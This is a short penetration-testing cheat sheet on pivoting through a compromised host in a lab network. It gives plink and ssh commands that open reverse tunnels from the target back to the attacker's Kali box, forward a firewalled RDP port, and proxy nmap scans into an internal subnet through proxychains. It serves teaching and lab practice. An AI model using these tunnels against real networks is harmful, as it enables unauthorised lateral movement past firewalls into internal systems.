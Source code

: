 
The Attacking Box (Kali Linux)   
IP: 192.168.1.16   
Netmask: 255.255.255.0   
Gateway: 192.168.1.1   

The pivot host (Windows XP) or linux     
User: lowuser   
FIRST IP: 192.168.1.30   
Netmask: 255.255.255.0   
SECOND IP: 10.0.0.2   
Netmask: 255.0.0.0    

Web server    
IP: 10.0.0.10   
Netmask: 255.0.0.0   

# Port Forwarding
 
Plink.exe is Windows binary for ssh can be found at:   
`/usr/share/windows-resources/binaries/plink.exe`   

### Remote Forwarding

To get to server at 10.0.0.10

From Target   
`plink -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`   
`ssh -p 22  -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`

From Kali   
`curl 127.0.0.1:4444`

### Local Forwarding

Firewall rule blocking 3389

From Target   
`plink -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`   
`ssh -p 22 -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`

From Kali   
`rdesktop 192.168.1.30:3390`

### Dynamic Forwarding

From target    
`plink -P 22 -N -C -R 2222:127.0.0.1:22 root@192.168.1.16`    
`ssh -f -N -R 2222:127.0.0.1:22 root@192.168.1.16`

From Kali   
`ssh -f -N -D 127.0.0.1:8080 -p 2222 lowuser@127.0.0.1`

`vi /etc/proxychains.conf`   
`socks4   127.0.0.1   8080`

`proxychains nmap -sT -Pn <IP>`



### Other tools

HTTPTunnel   

stunnel 

socat

Reference:   
https://www.cybrary.it/0p3n/pivot-network-port-forwardingredirection-hands-look/   
https://technostuff.blogspot.com/2008/10/some-useful-socat-commands.html    
